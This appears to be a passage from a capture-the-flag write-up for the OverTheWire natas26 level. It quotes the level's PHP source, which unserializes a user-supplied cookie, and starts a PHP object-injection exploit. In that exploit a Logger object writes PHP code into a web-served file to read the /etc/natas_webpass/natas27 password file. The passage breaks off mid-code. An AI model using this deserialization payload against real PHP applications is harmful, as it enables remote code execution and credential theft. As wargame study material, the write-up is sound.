 ```php
        $new_object["y1"] = $_GET["y1"];
        $new_object["x2"] = $_GET["x2"];
        $new_object["y2"] = $_GET["y2"];
    }

    if (array_key_exists("drawing", $_COOKIE)) {
        $drawing = unserialize(base64_decode($_COOKIE["drawing"]));
    } else {
        // create new array
        $drawing = array();
    }

    $drawing[] = $new_object;
    setcookie("drawing", base64_encode(serialize($drawing)));
}
?>

<?php
session_start();
if (
    array_key_exists("drawing", $_COOKIE) ||
    (array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))
) {
    $imgfile = "img/natas26_" . session_id() . ".png";
    drawImage($imgfile);
    showImage($imgfile);
    storeData();
}

?>
```

---
## Progress
### Observation
Obviously, we can inject from `$_GET` and `$_COOKIE`. All the operations using `$_GET` samely uses `$_COOKIE`. Therefore, the attack would be undergone with cookie. 
`imageline` and `unserialize` directly use the value of user provided cookie. From [php manual](https://php.net/manual/en/function.imageline.php), I could not get any vulnerabilities. However, there are lots of warnings in the unserialize page. That's it.
### Plan
By google, I found an [article about unserialize](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md). Set log file as the png file path or anything, and inject php code as exit message.

### Pwn
```php
<?php
class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct($file)
    {
        // initialise variables
        $this->initMsg = "#--session started--#\n";
        $this->exitMsg = "<?php echo file_get_contents(\"/etc/natas_webpass/natas27\"); ?>";
        $this->logFile = "/var/www/natas/natas26/img/sss.txt";
```